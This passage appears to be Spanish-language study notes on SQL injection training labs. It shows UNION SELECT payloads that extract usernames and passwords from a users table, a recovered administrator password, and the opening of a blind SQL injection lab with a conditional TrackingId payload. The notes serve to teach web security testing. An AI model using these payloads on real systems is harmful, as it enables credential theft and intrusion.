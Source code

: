 * username_adjuvf
* password_xmshnc
* users_kxxzwr

* '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
    *  '+UNION+SELECT+username_adjuvf,+password_xmshnc+FROM+users_kxxzwr--

![alt text](image-7.png)    

* administrator
* wobskest29imovks75ay
---

## 9.[LAB 9 SQLi Blind SQL injection with conditional responses](https://www.youtube.com/watch?v=W3zvXK9i75A) 

* ### "Proxy" y luego "Repeater" 
* TrackingId=xyz' AND '1'='1